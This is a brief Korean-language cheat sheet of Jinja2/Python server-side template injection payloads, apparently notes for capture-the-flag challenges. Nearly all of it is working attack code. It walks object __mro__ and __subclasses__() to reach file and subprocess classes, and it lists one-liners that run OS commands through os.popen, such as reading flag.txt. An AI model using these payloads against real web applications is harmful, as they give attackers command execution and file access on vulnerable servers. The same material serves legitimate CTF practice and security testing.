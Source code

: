 # 기본
1. {{ ''.__class__.__mro__ }} 를 쳐서 <type 'object'>의 인덱스를 찾음.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__() }}

# 파일
1. 위 mro의 subclass 에서 <type 'file'>의 인덱스를 찾는다.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__()[`인덱스`].open(`파일 경로`).read() }}
3. 만약 <type 'file'>이 없다면 subprocess.Popen 같은걸 이용하자.

# 기타 코드들
## 파일 읽기
```
{{ ''.__class__.__mro__[1].__subclasses__()[408]\('pwd',stdout=-1).communicate() }}
```
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```
